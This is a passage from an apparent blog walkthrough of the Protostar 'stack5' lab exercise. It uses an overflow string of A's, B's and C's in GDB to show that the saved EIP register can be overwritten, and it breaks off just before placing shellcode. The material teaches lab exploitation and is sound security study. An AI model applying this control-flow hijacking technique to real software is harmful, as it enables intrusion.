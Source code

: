 <img src="/assets/img/post/2020-07-10-exploit-education-protostar-stack-series/stack5.png" style="width: 50%" >

To test this out we can send 76 A's then four B's then 4 C's for safe measure. 

```shell
>>> "A"*76+"BBBB"+"CCCC"
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC'
```
Pasting this into GDB
```shell
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) 
```
If we take a look at the registers using the `info reg` command in GDB we can see that the EBP register (Base Pointer) was overwritten with A's and the EIP was overwritten with B's
```
esp            0xbffffcc0       0xbffffcc0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0x42424242       0x42424242
```
Now that we have confirmed we can control the EIP value we can point this to our shellcode. We need to figure out where the "CCCC" we sent are store on the stack.

